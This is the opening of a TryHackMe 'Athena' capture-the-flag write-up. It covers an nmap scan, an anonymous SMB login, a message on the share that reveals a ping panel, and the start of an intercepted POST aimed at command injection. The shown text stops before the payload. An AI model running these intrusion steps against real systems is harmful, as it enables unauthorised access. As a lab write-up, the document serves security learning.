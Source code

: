 # Athena Writeup - TryHackMe


First, we will enumerate port 139 using nmap to see if SMB is active

```nmap -sV -p139 --open -Pn 10.10.56.176 -v```

# output:

```  
Host is up (0.25s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 4.6.2 
```


Let's try to connect using smbclient without using a password

```smbclient -L  \\10.10.56.176\\ -U ```

# output:

```
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
SMB1 disabled -- no workgroup available

```

Now, we can see the ```public``` directory. Let's try to access it.

```smbclient //10.10.56.176/public -U  ```

Now, let's read the file that is in this directory.

```more msg_for_administrator.txt```

# output:

```
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern

```

Now, let's access the /myrouterpanel directory in the web application and intercept it with BurpSuite.

Let's try a command injection encoded in ASCII
```
POST /myrouterpanel/ping.php HTTP/1.1
Host: 10.10.56.176
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.56.176
Content-Type: application/x-www-form-urlencoded